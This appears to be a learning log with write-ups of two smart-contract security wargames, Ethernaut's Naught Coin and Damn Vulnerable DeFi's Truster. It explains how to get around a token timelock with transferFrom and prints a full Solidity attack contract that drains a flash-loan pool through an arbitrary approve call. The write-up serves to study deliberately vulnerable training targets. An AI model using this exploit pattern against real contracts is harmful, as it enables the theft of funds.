 ## Day 14-15: ERC20

### Ethernaut #15 Naught Coin 

This is an ERC20 token and we own the full supply of these tokens, but we can only withdraw with the transfer() function after 10 years.  The challenge is to transfer the coins out before the lockout period.  Here is a shot of the transfer and lockTokens() functions.  

```Java

  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  }
```

One possible exploit is to transfer the tokens using a different method than ```transfer()```, since this contract inherits all the ERC20 methods and only overrides ```transfer()```.  The other possible method is: ```transferFrom()```.  Two other accounts called ADDRESS_2, and ADDRESS_3, will be needed to accomplish this.  

This was accomplished with the following steps:

step 1. player approves ADDRESS_2 to spend INITIAL_SUPPLY tokens.  
step 2. ADDRESS_2 calls ```transferFrom(player, ADDRESS_3, INITIAL_SUPPLY)```.  



### Damn Vulnerable Defi #3 Truster

This is flah loan pool that lends out DVT tokens.  The objective is after starting with 0 tokens take all the tokens in the pool. The main flashLoan function is below: 

```Java
    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore)
            revert RepayFailed();

        return true;
    }
```

The main steps in the flash loan code are transfer() and then the target functionCall(), at first it appears that functionCall() is an interface for using the flash loan, however upon further inspection functionCall() is from OpenZeppelin utils in the Address.sol file.  Here is the relevant code: 

```Java
(bool success, bytes memory returndata) = target.call{value: value}(data);
```

This takes any contract we desire and calls any function we desire, very interesting.  With this knowledge we can attack the pool by not borrowing any tokens and instead using the function call to approve our contract to spend the external tokens.  A contract that does this is given below.  


```Java
contract Attack {
    TrusterLenderPool immutable pool;
    DamnValuableToken immutable token;
    uint256 constant MAX_UINT = type(uint256).max;

    constructor(address _poolAddress, address _tokenAdd) {
        pool = TrusterLenderPool(_poolAddress);
        token = DamnValuableToken(_tokenAdd);
    }

    function attack() external {
        // pack up the function call
        uint256 tokensToMove = token.balanceOf(address(pool));
        
        bytes memory packedFtnCall = abi.encodeWithSignature("approve(address,uint256)", address(this), tokensToMove); // this doesn't work
        // bytes memory packedFtnCall = abi.encodeWithSignature("balanceOf(address)", address(pool));  // this works

        // borrow 0 tokens so we don't have to worry about returning them.  
        pool.flashLoan(0, msg.sender, address(token), packedFtnCall);

        // now that we have the approval transfer the tokens to the boss
        token.transferFrom(address(pool), msg.sender, tokensToMove);
    }
}
```

This contract passes the test.  